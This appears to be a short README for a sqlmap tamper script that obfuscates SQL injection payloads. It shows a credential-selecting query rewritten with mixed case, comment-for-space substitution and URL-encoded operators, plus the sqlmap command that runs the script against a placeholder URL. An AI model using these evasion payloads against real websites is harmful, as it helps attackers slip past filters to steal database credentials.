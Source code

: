 ## SQLmap-Tamper-Scipts

### Example Payload Transformations
### Input Payload: SELECT username, password FROM users WHERE id=1 AND admin=1;
Output Payload (Transformed): sElEcT/**/username,/**/password/**/FrOm/**/users/**/wHeRe/**/id%3D1/**/&&/**/admin%3D1%3B
### How to Use
Save this script as advanced_obfuscation.py in the sqlmap/tamper directory.
### Run SQLMap with the tamper script:
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=advanced_obfuscation

